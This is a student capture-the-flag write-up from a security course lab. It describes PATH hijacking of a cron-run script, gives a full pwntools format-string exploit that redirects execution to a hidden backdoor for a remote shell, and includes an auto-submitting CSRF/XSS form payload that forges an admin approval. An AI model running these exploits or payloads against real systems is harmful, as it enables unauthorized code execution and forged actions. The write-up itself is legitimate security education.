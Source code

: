 # CTF extra

## British Ponctuality

> First we started by listing the content of the `home/flag_reader` directory and we noticed a script.

```bash
nobody@caea6090734d:/home/flag_reader$ ls
main.c  my_script.sh  reader
nobody@caea6090734d:/home/flag_reader$ cat my_script.sh
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

> We noticed that it was using printenv without a path so by changing the path we could exploit this to run our own version of printenv.
>
> Because our script was using /tmp/env to load the environment we created that file to change the $PATH variable.

```bash
nobody@caea6090734d:/tmp$ ls
env last_log 
nobody@caea6090734d:/tmp$ cat env
export PATH=/tmp/:$PATH
```

> Now at /tmp we created a printenv file that was the one that the script will then execute instead of the normal printenv.

```bash
nobody@caea6090734d:/tmp$ echo "cat ../flags/flag.txt" > printenv
```

> When we ran the script with this configuration we still didn't have permissions to access the flag but we noticed that the server was running `cron` to periodically run the script and this `cron` had the permissions to access the flags/flag.txt file.
>
> So after creating our version of printenv we just waited and then in the last_log file there it was the flag.

## FinalFormat

> For this challenge, the backdoor had been removed. But using gdb we were able to see that it was still there

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
...
0x08049236  old_backdoor
...
```

> So our idea was to try to change the flow of the program so that it would jump to the old_backdoor function and therefore access the flag.
>
> We then run `checksec` on the program to see what type of protection it had and we saw that writing in the stack like in the other challenges would be impossible because NX was enabled.

```bash
 /home/seed/Downloads/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

> We then used gdb to find instructions that would use call and jump to another address.
>
> We found a jump in `0x0804c010` so we now needed to change the old_backdoor function address to be at this location so that the code would run the backdoor function to then a shell be launched.
>
>Using format string vulnerabilities we created this exploit where we write the address of the backdoor `0x08049236` into the `0x0804c010` position in memory so that when the jump to this is called the program will jump to the backdoor function and execute it allowing for a shell to be launched.

```py
from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  ("....").to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("....").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()
```

> We had to arrange a different way of writing `0x08049236` because using the normal way of `%nrofcharsx%1$n` would take a lot of time because `0x08049236` is 134517302 in decimal. So we used `%hn` to write into 2 bytes instead of 4. Therefore we would need to write `0x0804` to  `0x0804c010` and `0x9236` to  `0x0804c012`. We also use `....` as placeholder because `%x` performs a jump in the stack and therefore we would loose important content.
>
> The value 2036 appears because `0x0804` = 2052 but we have 16 bytes already written to the content. The value 35378 appears because `0x9236` = 37430 but we have already written 2052 bytes.
>
> After running this python file a shell was launched and to get the flag we just executed :

```bash
cat flag.txt
```

## Apply For Flag II

> So in this challenge the XSS possibility was removed because now the admin would go to another page to validate our justification so we couldn´t do an XSS attack like in the week 10 challenge 1 ctf.
>
> We first started by analysing the website and we noticed that in the page there was now an id for the request that our justification will use. We assumed that this was going to be important to falsificate an approve request.
>
> We then went to see the font code of the new page that the admin would use and we noticed that the give the flag button was connected to a post method to "/request/&{requestid}/approve". So we would need to get the admin to go to this page to approve our request and give the flag.
>
> ![giveflag](../docs/ctfextra/giveflaghtml.png)
>
> So we find that we would need to realize an CSRF(Cross-site request forgery) to lead the admin to go this page.
>
> To achieve this we would need to create a button live the "give the flag" button but in the page where our justifcation go and there with javascript make the admin click that button like we did in week10 challenge 1 ctf.
> We send this as our justification:

```html
<form id="form" method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/42fb836522c872ec8986ce0c9aecfa3394b94b61/approve" role="form"><div class="submit"><input type="submit" id="giveflag" value="Give the flag"> </div> </form><script>document.getElementById('giveflag').click()</script>
```

> We used the id request that was given for us in the page and then when we submitted this and we were redirected to a forbidden page warning so we thought that we did something wrong.
>
> ![forbidden](../docs/ctfextra/forbidden.png)
>
> This was logical because us, as normal users, were not able to go to this page and when we were redirected to this page by the form we would be blocked. But we knew that the admin would have permissions to go to this page so we would need to disabled the javascript in our page so we wouldn't click on the give the flag button but the admin would have the javascript running and therefore would click on the button and given us the flag.
>
> We used uBlockOrigin extension to disable javascript on our browser and then refreshed the page and there it was the flag.
>
> ![disablejs](../docs/ctfextra/disablejavascript.png)
>
> ![flag](../docs/ctfextra/flag.png)
